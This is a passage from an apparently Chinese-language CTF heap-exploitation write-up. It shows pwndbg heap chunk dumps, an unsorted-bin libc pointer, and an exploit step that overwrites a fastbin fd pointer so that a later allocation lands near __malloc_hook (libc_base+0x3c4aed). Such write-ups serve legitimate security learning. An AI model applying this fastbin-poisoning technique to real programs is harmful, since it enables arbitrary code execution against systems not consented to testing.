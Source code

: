 ```c
Size: 0x21

Allocated chunk
Addr: 0x5555557570f0
Size: 0x90

Allocated chunk | PREV_INUSE
Addr: 0x555555757180
Size: 0x20e61
pwndbg> x/60gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000021 #index0
0x555555757010:	0x0000000000000000	0x0000000000000000
0x555555757020:	0x0000000000000000	0x0000000000000021 #index1
0x555555757030:	0x0000000000000000	0x0000000000000000
0x555555757040:	0x0000000000000000	0x0000000000000021 #index2
0x555555757050:	0x0000000000000000	0x0000000000000000
0x555555757060:	0x0000000000000000	0x0000000000000021 #index3
0x555555757070:	0x0000000000000000	0x0000000000000000
0x555555757080:	0x0000000000000000	0x0000000000000071 #index4（fastbin）
.....（省略内容均为空）
0x5555557570f0:	0x0000000000000000	0x0000000000000021 #index5（unsortedbin）
0x555555757100:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x555555757110:	0x0000000000000020	0x0000000000000090 #index6
.....（省略内容均为空）
0x5555557571a0:	0x0000000000000000	0x0000000000020e61 #top_chunk
.....（省略内容均为空）
0x5555557571d0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

```c
0x5fcead98730:  0x0000000000000001  0x0000000000000010
                #index0
0x5fcead98740:  0x0000555555757010  0x0000000000000001
                                    #index1
0x5fcead98750:  0x0000000000000010  0x0000555555757050    
0x5fcead98760:  0x0000000000000001  0x0000000000000010
                #index2     
0x5fcead98770:  0x0000555555757090  0x0000000000000001
                                    #index3
0x5fcead98780:  0x0000000000000010  0x0000555555757070
0x5fcead98790:  0x0000000000000000  0x0000000000000000
                #index4（此处发生了改变）#（此处发生了改变）     
0x5fcead987a0:  0x0000000000000000  0x0000000000000001
                #（此处发生了改变）     #index6（原index5）
0x5fcead987b0:  0x0000000000000080  0x0000555555757120
```

### 2-3、修改index4的fd指针
```c
#然后修改fd指针,通过index2往index4上写为malloc_hook,这样再次申请的时候会分配到这个地址
#但问题是我们去申请的时候会检查size是不是 fakefd + 8 == 当前fastbin的大小
#这个地址是main_arena-0x40+0xd,具体看后面图片解释
payload = p64(libc_base+0x3c4aed)
fill(2, payload)
```
